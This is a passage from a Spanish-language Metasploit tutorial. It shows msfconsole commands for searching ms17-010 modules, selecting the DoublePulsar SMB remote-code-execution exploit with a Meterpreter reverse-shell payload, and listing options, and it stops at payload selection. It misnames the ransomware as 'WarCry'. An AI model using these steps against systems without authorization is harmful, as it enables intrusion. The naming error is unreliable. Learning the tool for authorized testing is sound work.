 3. Ahora tenemos todo listo para usar _Metasploit_:

```sh
$> msfconsole
```

Te aparecerá una salida que indica un prompt de comando de _Metasploit_ y el conteo de herramientas listas para operar (además de un bonito arte ASCII).

> Nota: Puedes usar los comandos de la terminal en _msfconsole_, más no todos, pero no hay problema con los comandos básicos como _ls, ifconfig, nmap, clear_, entre otros. Para una lista de opciones permitidas, usa en el prompt de _msfconsole_ el comando _help_.

4. _Metaspolit_ tiene herramientas para vulnerabilidades específicas, llamados _módulos_, que puedes ser _exploits, auxiliaries, posts, etcétera_, y lo podemos usar con el comando _search_, ejemplo con el conocido Ransomware _WarCry_ que es identificado con el código _ms17-010_:

```sh
msf6 > search ms17-010
```

> Nota: Ha cambiado el prompt con _msfconsole_: _msf#_.

Los resultados de este comando es un listado de **módulos**, y en la columna _Rank_ son calificados de acuerdo al número de incidencias exitosas. Por ejemplo, el módulo **27** llamado **exploit\windows\smb\smb_double_pulsar_rce** tiene una calificación de _great_ (grandioso para trabajar con esta vulnerabilidad).

5. Para usar un módulo, puedes usar tanto el valor de la columna **#** o **Name** con el comando _use_:

```sh
msf6 > use 27
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(exploit/windows/smb/smb_double_pulsar_rce) > 
```

```sh
msf6 > use exploit/windows/smb/smb_double_pulsar_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(exploit/windows/smb/smb_double_pulsar_rce) > 
```

Ya estás listo para usar tu módulo seleccionado, y el prompt lo indica.

6. Puedes mostrar tanto la información como las opciones del módulo:

```sh
msf6 exploit(exploit/windows/smb/smb_double_pulsar_rce) > show info
msf6 exploit(exploit/windows/smb/smb_double_pulsar_rce) > show options
```

7. Cuando seleccionaste el módulo, también en la salida _Metasploit_ seleccionó un _payload_ predeterminado, en el ejemplo **windows/x64/meterpreter/reverse_tcp** (_Meterpreter es uno de los payloads más usados porque permite control remoto avanzado del sistema comprometido_). Para usar otro _payload_, usa _set payload_, y para mostrar los payloads disponibles, despúes de escribir _**set payload **_ pulsa la tecla _Tab_:

```sh
msf6 exploit(exploit/windows/smb/smb_double_pulsar_rce) > set payload 
...
```

